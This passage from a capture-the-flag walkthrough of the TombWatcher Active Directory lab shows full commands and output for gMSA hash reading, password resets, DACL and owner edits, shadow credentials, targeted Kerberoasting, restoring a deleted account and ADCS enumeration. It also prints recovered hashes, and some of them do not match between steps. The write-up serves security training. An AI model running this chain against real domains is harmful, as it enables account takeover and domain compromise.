LDAPS       10.10.11.72     636    DC01             Account: ansible_dev$         NTLM: <no read permissions>                PrincipalsAllowedToReadPassword: Infrastructure

```

Now I had to re-add the permissions since it get's deleted every now and then but I have the password hash baby:

```
└─# netexec ldap dc01.tombwatcher.htb -u Alfred -p 'basketball' --gmsa
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAPS       10.10.11.72     636    DC01             [+] tombwatcher.htb\Alfred:basketball 
LDAPS       10.10.11.72     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.72     636    DC01             Account: ansible_dev$         NTLM: 1c37d00093dc2a5f25176bf2d474afdc     PrincipalsAllowedToReadPassword: Infrastructure

```

And with this account we can reset SAM's password:

```
└─# powerview tombwatcher.htb/'ansible_dev$'@dc01.tombwatcher.htb -H :1c37d00093dc2a5f25176bf2d474afdc
Logging directory is set to /root/.powerview/logs/tombwatcher-ansible_dev$-dc01.tombwatcher.htb
[2025-06-08 02:25:11] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\ansible_dev$]
PV > Set-Domain  
Set-DomainCATemplate         Set-DomainDNSRecord          Set-DomainObjectDN           Set-DomainRBCD 
Set-DomainComputerPassword   Set-DomainObject             Set-DomainObjectOwner        Set-DomainUserPassword 
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\ansible_dev$]
PV > Set-DomainUserPassword -Identity SAM -
-AccountPassword   -OldPassword       -OutFile           -Server            
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\ansible_dev$]
PV > Set-DomainUserPassword -Identity SAM -AccountPassword 'Coglione1!'
[2025-06-08 02:25:37] [Set-DomainUserPassword] Principal CN=sam,CN=Users,DC=tombwatcher,DC=htb found in domain
[2025-06-08 02:25:37] [Set-DomainUserPassword] Password has been successfully changed for user sam
[2025-06-08 02:25:37] Password changed for SAM
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\ansible_dev$]
PV > 

```

Now we must gain access to John in 2 steps:

```
//Writing out self(SAM) as owner of John
└─# python3 /usr/share/doc/python3-impacket/examples/owneredit.py -action write -new-owner 'Sam' -target 'John' tombwatcher.htb/sam:'Coglione1!' -dc-ip 10.10.11.72 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!


//Writing out self(SAM) with GenericWrite over John
└─# impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'Sam' -target 'John' tombwatcher.htb/sam:'Coglione1!' -dc-ip 10.10.11.72                                                 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250608-022946.bak
[*] DACL modified successfully!
                                           
```

Now here I thought I could just perform another Kerberoast but John password hash was not part of the rockyou.txt wordlist so i decided to take another approach and obtain his password hash via Shadow credentials.

```
//Writing the needed attribute to make the Shadowcreds work
└─# bloodyAD --host 10.10.11.72 -u 'Sam' -p 'Coglione1!' -d 'tombwatcher.htb' add shadowCredentials John
[+] KeyCredential generated with following sha256 of RSA key: 2f35d9e3e6969673b245d9ca5716f5d1fc63795c08f3d1ad1566e96a118e116c
No outfile path was provided. The certificate(s) will be stored with the filename: nA80m0GH
[+] Saved PEM certificate at path: nA80m0GH_cert.pem
[+] Saved PEM private key at path: nA80m0GH_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem nA80m0GH_cert.pem -key-pem nA80m0GH_priv.pem tombwatcher.htb/John nA80m0GH.ccache


//Obtaining a valid TGT for John via the ccache
└─# python3 ../Tools/PKINITtools/gettgtpkinit.py -cert-pem nA80m0GH_cert.pem -key-pem nA80m0GH_priv.pem tombwatcher.htb/John nA80m0GH.ccache
2025-06-08 02:33:31,322 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-08 02:33:31,329 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-06-08 02:33:42,130 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-06-08 02:33:42,130 minikerberos INFO     e92e4ee0481b618d2f137dd2e503183ff152e150268d15ac4f75c14f7ad1dedf
INFO:minikerberos:e92e4ee0481b618d2f137dd2e503183ff152e150268d15ac4f75c14f7ad1dedf
2025-06-08 02:33:42,132 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file


//Obtaining the NTLM hash of john
└─# python3 ../Tools/PKINITtools/getnthash.py -key e92e4ee0481b618d2f137dd2e503183ff152e150268d15ac4f75c14f7ad1dedf tombwatcher.htb/John    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/millycash/Downloads/Tombwatcher/../Tools/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/millycash/Downloads/Tombwatcher/../Tools/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
ad9324754583e3e42b55aad4d3b8d2bf                                                    
```

Now to be sure if works I will quick check in AD.



Now I have basically all the users in the AD lol :D

Now I can login and obtain the first flag:

```
*Evil-WinRM* PS C:\Users\john\Desktop> cat user.txt
029b3336c738253fc7fb5c659efc71b8

```

&nbsp;

# Road to root.txt

Now a quick inspection shows that there are no other users that have logged in the system except Admin and John. I don't see any particular permissions associated with John on the system.

Now back on AD enumeration we can see that John can become owver of an entire OU:  


In our case if we can become owners of a OU we can poison all the object GPO linked to that OU and since it is the domain policy this might allows us to become adming in  that way...

https://www.synacktiv.com/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory

Now we must start first by adding John as owner of the OU:

```
└─# impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'John' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' tombwatcher.htb/John -hashes :ad9324754583e3e42b55aad4d3b8d2bf

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250608-030448.bak
[*] DACL modified successfully!

```

And Immediately I see that the Admins will not inherit the GPO?   
I can't write any new gpo so far:

```
└─# python3 GPOwned.py -u John -hashes :ad9324754583e3e42b55aad4d3b8d2bf -d tombwatcher.htb -dc-ip 10.10.11.72 -gpcmachine -creategpo -name yovecio -comment "This is a test comment"               
        GPO Helper - @TheXC3LL
        Modifications by - @Fabrizzio53


[*] Connecting to LDAP service at 10.10.11.72
[+] Checking if the GPO with name yovecio alreay exist.
[-] Failed to create GPO: insufficientAccessRights

```

Now my user has no rights to add a new GPO so i tried to enumerate the rights on who can create?

```
*Evil-WinRM* PS C:\temp> import-module ./PowerView.ps1
*Evil-WinRM* PS C:\temp> Import-Module .\Get-GPOEnumeration.ps1
*Evil-WinRM* PS C:\temp> Get-GPOEnumeration
Enumerating GPOs and their applied scopes...
*Evil-WinRM* PS C:\temp> 


```

That is pretty bad, then I guess I need to use the OU script.

# Another attempt

Now here I was totally wrong as I suspected at the beginning it was about tombstoned objects aka deleted ones:

```
*Evil-WinRM* PS C:\temp> import-module ActiveDirectory
*Evil-WinRM* PS C:\temp> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *


CanonicalName                   : tombwatcher.htb/Deleted Objects
CN                              : Deleted Objects
Created                         : 11/15/2024 7:01:41 PM
createTimeStamp                 : 11/15/2024 7:01:41 PM
Deleted                         : True
Description                     : Default container for deleted objects
DisplayName                     :
DistinguishedName               : CN=Deleted Objects,DC=tombwatcher,DC=htb
dSCorePropagationData           : {12/31/1600 7:00:00 PM}
instanceType                    : 4
isCriticalSystemObject          : True
isDeleted                       : True
LastKnownParent                 :
Modified                        : 11/15/2024 7:56:00 PM
modifyTimeStamp                 : 11/15/2024 7:56:00 PM
Name                            : Deleted Objects
ObjectCategory                  : CN=Container,CN=Schema,CN=Configuration,DC=tombwatcher,DC=htb
ObjectClass                     : container
ObjectGUID                      : 34509cb3-2b23-417b-8b98-13f0bd953319
ProtectedFromAccidentalDeletion :
sDRightsEffective               : 0
showInAdvancedViewOnly          : True
systemFlags                     : -1946157056
uSNChanged                      : 12851
uSNCreated                      : 5659
whenChanged                     : 11/15/2024 7:56:00 PM
whenCreated                     : 11/15/2024 7:01:41 PM

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : tombwatcher.htb/Deleted Objects/cert_admin
                                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
CN                              : cert_admin
                                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
codePage                        : 0
countryCode                     : 0
Created                         : 11/15/2024 7:55:59 PM
createTimeStamp                 : 11/15/2024 7:55:59 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb
dSCorePropagationData           : {11/15/2024 7:56:05 PM, 11/15/2024 7:56:02 PM, 12/31/1600 7:00:01 PM}
givenName                       : cert_admin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=ADCS,DC=tombwatcher,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 11/15/2024 7:57:59 PM
modifyTimeStamp                 : 11/15/2024 7:57:59 PM
msDS-LastKnownRDN               : cert_admin
Name                            : cert_admin
                                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
objectSid                       : S-1-5-21-1392491010-1358638721-2126982587-1109
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133761921597856970
sAMAccountName                  : cert_admin
sDRightsEffective               : 7
sn                              : cert_admin
userAccountControl              : 66048
uSNChanged                      : 12975
uSNCreated                      : 12844
whenChanged                     : 11/15/2024 7:57:59 PM
whenCreated                     : 11/15/2024 7:55:59 PM

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : tombwatcher.htb/Deleted Objects/cert_admin
                                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
CN                              : cert_admin
                                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
codePage                        : 0
countryCode                     : 0
Created                         : 11/16/2024 12:04:05 PM
createTimeStamp                 : 11/16/2024 12:04:05 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb
dSCorePropagationData           : {11/16/2024 12:04:18 PM, 11/16/2024 12:04:08 PM, 12/31/1600 7:00:00 PM}
givenName                       : cert_admin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=ADCS,DC=tombwatcher,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 11/16/2024 12:04:21 PM
modifyTimeStamp                 : 11/16/2024 12:04:21 PM
msDS-LastKnownRDN               : cert_admin
Name                            : cert_admin
                                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : c1f1f0fe-df9c-494c-bf05-0679e181b358
objectSid                       : S-1-5-21-1392491010-1358638721-2126982587-1110
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133762502455822446
sAMAccountName                  : cert_admin
sDRightsEffective               : 7
sn                              : cert_admin
userAccountControl              : 66048
uSNChanged                      : 13171
uSNCreated                      : 13161
whenChanged                     : 11/16/2024 12:04:21 PM
whenCreated                     : 11/16/2024 12:04:05 PM

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : tombwatcher.htb/Deleted Objects/cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
CN                              : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
codePage                        : 0
countryCode                     : 0
Created                         : 11/16/2024 12:07:04 PM
createTimeStamp                 : 11/16/2024 12:07:04 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
dSCorePropagationData           : {6/7/2025 9:21:22 PM, 6/7/2025 9:10:20 PM, 11/16/2024 12:07:10 PM, 11/16/2024 12:07:08 PM...}
givenName                       : cert_admin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=ADCS,DC=tombwatcher,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
lastLogonTimestamp              : 133938186548835361
logonCount                      : 0
Modified                        : 6/7/2025 9:22:00 PM
modifyTimeStamp                 : 6/7/2025 9:22:00 PM
msDS-LastKnownRDN               : cert_admin
Name                            : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid                       : S-1-5-21-1392491010-1358638721-2126982587-1111
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133938186451492088
sAMAccountName                  : cert_admin
sDRightsEffective               : 7
sn                              : cert_admin
userAccountControl              : 66048
uSNChanged                      : 90482
uSNCreated                      : 13186
whenChanged                     : 6/7/2025 9:22:00 PM
whenCreated                     : 11/16/2024 12:07:04 PM

```

As you can see I used the native AD powershell module to check that there is a delete ADCS account?

Now the account have been deleted 3 times:

- **First instance** (ObjectGUID: `f80369c8-96a2-4a7f-a56c-9c15edd7d1e3`)
    - Created: November 15, 2024 7:55:59 PM
    - Deleted: November 15, 2024 7:57:59 PM
    - **Lifetime: ~2 minutes**
- **Second instance** (ObjectGUID: `c1f1f0fe-df9c-494c-bf05-0679e181b358`)
    - Created: November 16, 2024 12:04:05 PM
    - Deleted: November 16, 2024 12:04:21 PM
    - **Lifetime: ~16 seconds**
- **Third instance** (ObjectGUID: `938182c3-bf0b-410a-9aaa-45c8e1a02ebf`)
    - Created: November 16, 2024 12:07:04 PM
    - Deleted: (sometime after creation)
    - **Restored: Between November 2024 and June 2025**
    - Currently active with recent activity (June 7, 2025)

Now the AI was good to define that the most interesting one should be the last one? So I restored it, again with native AD plugins:

```
*Evil-WinRM* PS C:\temp> Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf"


*Evil-WinRM* PS C:\temp> Get-ADUser -Filter "Name -eq 'cert_admin'" -ErrorAction SilentlyContinue
DistinguishedName : CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
Enabled           : True
GivenName         : cert_admin
Name              : cert_admin
ObjectClass       : user
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
SamAccountName    : cert_admin
SID               : S-1-5-21-1392491010-1358638721-2126982587-1111
Surname           : cert_admin
UserPrincipalName :


```

As you see the AI tipsed the last one as it is the one that was alive the longest... And now the object is saved under ADCS? Let's retake another scrren of the AD.

```
└─# rusthound-ce --domain tombwatcher.htb -u 'Alfred' -p basketball -c All --zip 
---------------------------------------------------
Initializing RustHound-CE at 04:37:32 on 06/08/25
Powered by @g0h4n_0
Special thanks to NH-RED-TEAM
---------------------------------------------------

[2025-06-08T02:37:32Z INFO  rusthound_ce] Verbosity level: Info
[2025-06-08T02:37:32Z INFO  rusthound_ce] Collection method: All
[2025-06-08T02:37:32Z INFO  rusthound_ce::ldap] Connected to TOMBWATCHER.HTB Active Directory!
[2025-06-08T02:37:32Z INFO  rusthound_ce::ldap] Starting data collection...
[2025-06-08T02:37:32Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-08T02:37:33Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=tombwatcher,DC=htb
[2025-06-08T02:37:33Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-08T02:37:34Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Configuration,DC=tombwatcher,DC=htb
[2025-06-08T02:37:34Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-08T02:37:35Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Schema,CN=Configuration,DC=tombwatcher,DC=htb
[2025-06-08T02:37:35Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-08T02:37:36Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=DomainDnsZones,DC=tombwatcher,DC=htb
[2025-06-08T02:37:36Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-08T02:37:36Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=ForestDnsZones,DC=tombwatcher,DC=htb
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::parser] Starting the LDAP objects parsing...
[2025-06-08T02:37:36Z INFO  rusthound_ce::objects::domain] MachineAccountQuota: 10
⢀ Parsing LDAP objects: 2%                                                                                                 [2025-06-08T02:37:36Z INFO  rusthound_ce::objects::enterpriseca] Found 11 enabled certificate templates
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::parser] Parsing LDAP objects finished!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::checker] Starting checker to replace some values...
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::checker] Checking and replacing some values finished!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 9 users parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 61 groups parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 2 ous parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 3 domains parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 2 gpos parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 74 containers parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 1 ntauthstores parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 1 aiacas parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 1 rootcas parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 1 enterprisecas parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 33 certtemplates parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] 3 issuancepolicies parsed!
[2025-06-08T02:37:36Z INFO  rusthound_ce::json::maker::common] .//20250608043736_tombwatcher-htb_rusthound-ce.zip created!

RustHound-CE Enumeration Completed at 04:37:36 on 06/08/25! Happy Graphing!

```

Now here I noticed there must be a script that deleted the cert_admin user.



Nice we can come to cert_admin pretty easy! Can we crack the creds?

```
└─# python3 targetedKerberoast.py --dc-ip 10.10.11.72 -d tombwatcher.htb -u john --hashes :7dfa0531d73101ca080c7379a9bff1c7 --request-user cert_admin
[*] Starting kerberoast attacks
[*] Attacking user (cert_admin)
[+] Printing hash for (cert_admin)
$krb5tgs$23$*cert_admin$TOMBWATCHER.HTB$tombwatcher.htb/cert_admin*$1c58feb977af112cf846b68c5167d818$e55d68bcfff8d6b304041764592fe90f7781fe6f265d2cfc1a70b189169fbaf2995d82546820d47b3c11a39b4507a9f615f51c1f0b1b185c8ef5cb03e476dbb71d1f09137cf2de66ad6b6721cdd32c078eae6ae729860ef29b9c399a8e20f3de5a198c8f234516f48203e4ae277271a34cd05ef3c9f565b289d28279779fe2da0b7ee4d91cf473b14f3fa225cc3494aa7eda4032892d8ac1d489b899e40a7f250303f55e4606129a166ac64cb2751d32f72bba5c7076eabb50dbcb5a8d4b53fe4c2e422eff0a697edaa2105ff911987094d0a0081f745e5a331e147ffb4c024443014a7547b979f45fd54420f546d42e668a5589b2686febb031a74f113f6b675f72bb42a6cb939d911262e6845294f7740448958b7b8d5c11c048eb6435fb1cfadb75c755444ab7ce4ef1358ede06eb06901bbb7959610a7743e3d9918200f338f8aea37fefecda5d8f457d8398c148795ba8532c14beb26acd64460baab38610bb5bb92b0ebbe3d9fff25795a000efb05ca7842bcbd166c38b583aaf6d6a3bb87bc8e0e62f3ae5c0f7c03d7b1ea95e27e5837ee3f3ed1cc609ae419cf8a814bc340d9e3d83b27d758aa9d7be6f26ab2ead0e332202ef240c1c1bcb068d2332c6c6996f29109ef1b157e0a0eba2fcca7b9ff0febd670daf217a4cba2e068f835281b88d605b13c02dc0180be9c129e04604759351438e849ce83383dafadedea81308f6c44d82bd65fcd9e6039d8f0ee253a3efde532467e06a85b0a39080b26c72e1f400c438255c9f1473c0e52b9592b36ffbe6622a7ccf845274679baff5624b6034159bcf1216f6fa09914fe5c3826a6849236ea734f329e5395865bb7350f31fcc4c17b00f8f9fcd849e1716abdadc227fccfbd248f8f1061926752860423faa57af97421a1a4d143d62d8502d3c8a5b9117de0fb4edc0bb306f52b83958b01cd78679b3b49fa795fb192c7b3ba6be1f11660780c26a31cb6726f2c51b53bfa9edde329c9efe9c660f9d210c2b844134552af804df6059bd2399cf30a435d5a7b3bc7f40070282a005d1b57090e750dca4460cbda3048f5bb8b77c63b52774cc11b3f45431c99a9162bd243f25955448d9e46ed503a530d6fde38659e6595f0df1128a3e7951f576d7ca5bbc831b83502717bdb5250e664760a667b70c85e513965c278455c03819136499eb6ef29fbe0dd2600aec41beb80f6c0ad66f370b42645a8f8f2222169b282127dfebe7b3c912b5023f5fff1ccd9ee1ee9d80738d0a993df0b25b3c3c97d61c9afc602386265e4d2688f4c787b899cc1a2296473a865b8a7ec84392e6e50bf88dd4b472876a0a7950af71fc010effff250ab5b31c33b2534c5f06a14535913e89814f8c3eb19c25979fbf1fa3d493941c76cb8bf3d08ea9b185f95c0e9686b0e483a172be9aeefa550c2eda7cff03

```



Nah then we must execute the Shadow credentials attack again.

```
//Writing the needed attribute for ShadowCred
└─# bloodyAD --host 10.10.11.72 -u John -p :7dfa0531d73101ca080c7379a9bff1c7 -d 'tombwatcher.htb' add shadowCredentials cert_admin 
[+] KeyCredential generated with following sha256 of RSA key: 8a28cafe3c9741e89106294007de980a4e33b2b0e234c344db1624380b242016
No outfile path was provided. The certificate(s) will be stored with the filename: z1WNUIVz
[+] Saved PEM certificate at path: z1WNUIVz_cert.pem
[+] Saved PEM private key at path: z1WNUIVz_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem z1WNUIVz_cert.pem -key-pem z1WNUIVz_priv.pem tombwatcher.htb/cert_admin z1WNUIVz.ccache


//Requesting a TGT for cert_admin
└─# python3 ../Tools/PKINITtools/gettgtpkinit.py -cert-pem z1WNUIVz_cert.pem -key-pem z1WNUIVz_priv.pem tombwatcher.htb/cert_admin z1WNUIVz.ccache

2025-06-08 04:49:32,589 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-08 04:49:32,596 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-06-08 04:49:32,663 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-06-08 04:49:32,663 minikerberos INFO     760bff202a8305783bb77f4ecb3f90f5ed221efcbd2cabd3b5d7601ea1444d59
INFO:minikerberos:760bff202a8305783bb77f4ecb3f90f5ed221efcbd2cabd3b5d7601ea1444d59
2025-06-08 04:49:32,665 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file


//Getting the NTLM hash
└─# python3 ../Tools/PKINITtools/getnthash.py -key cb5532d3b073e206886345fc4d4572efda707d66bb72c648b2523e73d016bea1 tombwatcher.htb/cert_admin
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/millycash/Downloads/Tombwatcher/../Tools/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/millycash/Downloads/Tombwatcher/../Tools/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
7dfa0531d73101ca080c7379a9bff1c7
                                              
                                              
                                              
                                              
                                              
```

&nbsp;And now we can see it is vulnerable to ESC15?

```
─# certipy-ad find -u cert_admin@tombwatcher.htb -hashes :7dfa0531d73101ca080c7379a9bff1c7 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: TOMBWATCHER.HTB.
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The DNS query name does not exist: DC01.tombwatcher.htb.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
